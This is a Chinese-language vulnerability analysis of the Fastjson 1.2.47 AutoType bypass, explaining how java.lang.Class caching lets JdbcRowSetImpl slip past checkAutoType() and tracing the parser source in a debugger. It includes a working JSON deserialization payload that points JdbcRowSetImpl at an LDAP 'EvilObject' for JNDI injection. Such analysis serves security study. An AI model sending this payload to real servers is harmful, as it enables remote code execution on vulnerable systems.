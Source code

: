 **原理：**

绕过了 `ParserConfig.checkAutoType()`。

通过 java.lang.Class，将JdbcRowSetImpl类加载到Map中缓存，从而绕过AutoType的检测。因此将payload分两次发送，第一次加载，第二次执行。默认情况下，只要遇到没有加载到缓存的类，`checkAutoType()`就会抛出异常终止程序。

​										——[Java反序列化Fastjson篇03-Fastjson各版本绕过分析](https://drun1baby.github.io/2022/08/08/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8703-Fastjson%E5%90%84%E7%89%88%E6%9C%AC%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90/)

将payload分两次发送：

```java
{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://localhost:1099/EvilObject","autoCommit":true}}
```

---

调试分析**（我这里用的是1.2.47版本）**：

既然原理是绕过了 `ParserConfig.checkAutoType()`，那我们就下断点在 `ParserConfig.checkAutoType()`。

在调用`DefaultJSONParser.parserObject()`函数时，会对JSON数据进行**循环遍历**扫描解析。

**第一次扫描解析**，

进行`checkAutoType()`函数，由于未开启AutoTypeSupport，因此**不会进入**黑白名单校验的逻辑；由于@type执行java.lang.Class类，该类在接下来的`findClass()`函数中直接被找到，并在后面的if判断clazz不为空后直接返回。

**ParserConfig.checkAutoType()：**

```java
// 不执行
if (autoTypeSupport || expectClass != null) {
            ......
        }
		// 不执行
        if (clazz == null) {
            clazz = TypeUtils.getClassFromMapping(typeName);
        }
		// 执行
        if (clazz == null) {
            clazz = deserializers.findClass(typeName);
        }

        if (clazz != null) {
            if (expectClass != null
                    && clazz != java.util.HashMap.class
                    && !expectClass.isAssignableFrom(clazz)) {
                throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
            }
			// 执行
            return clazz;
        }
```
